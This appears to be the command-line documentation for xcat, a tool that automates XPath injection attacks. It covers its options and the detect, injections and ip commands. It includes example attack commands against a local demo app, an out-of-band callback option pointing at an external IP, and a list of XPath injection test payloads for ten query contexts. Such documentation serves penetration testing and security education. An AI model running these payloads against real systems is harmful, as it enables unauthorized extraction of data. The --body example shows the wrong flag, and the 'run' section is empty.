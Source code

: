 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

For example, to attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

XCat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then XCat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

XCat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](oob.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection XCat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: True
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: True
environment-variables: False
document-uri: True
base-uri: True
current-datetime: True
unparsed-text: False
doc-function: True
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False
``` 

# run


# injections

This command prints out all the injections XCat currently can use, along with the sample expressions 
XCat will use to test if this injection works.

```shell
$ xcat injections
Supports 10 injections:
 - Name: integer
   Example: /lib/book[id=?]
   Tests:
   - ? and 1=1 = passes
   - ? and 1=2 = fails
 - Name: string - single quote
   Example: /lib/book[name='?']
   Tests:
   - ?' and '1'='1 = passes
   - ?' and '1'='2 = fails
 - Name: string - double quote
   Example: /lib/book[name="?"]
   Tests:
   - ?" and "1"="1 = passes
   - ?" and "1"="2 = fails
 - Name: attribute name - prefix
   Example: /lib/book[?=value]
   Tests:
   - 1=1 and ? = passes
   - 1=2 and ? = fails
 - Name: attribute name - postfix
   Example: /lib/book[?=value]
   Tests:
   - ? and not 1=2 and ? = passes
   - ? and 1=2 and ? = fails
 - Name: element name - prefix
   Example: /lib/something?/
   Tests:
   - .[true()]/? = passes
   - .[false()]/? = fails
 - Name: element name - postfix
   Example: /lib/?something
   Tests:
   - ?[true()] = passes
   - ?[false()] = fails
 - Name: function call - last string parameter - single quote
   Example: /lib/something[function(?)]
   Tests:
   - ?') and true() and string('1'='1 = passes
   - ?') and false() and string('1'='1 = fails
 - Name: function call - last string parameter - double quote
   Example: /lib/something[function(?)]
   Tests:
   - ?") and true() and string("1"="1 = passes
   - ?") and false() and string("1"="1 = fails
 - Name: other elements - last string parameter - double quote
   Example: /lib/something[function(?) and false()] | //*[?]
   Tests:
   - ?") and false()] | //*[true() and string("1"="1 = passes
   - ?") and false()] | //*[false() and string("1"="1 = fails
```

# ip

This command is a convenience function to get your current external IP address. It takes 
no arguments.

```shell
$ xcat ip
123.210.60.90
```
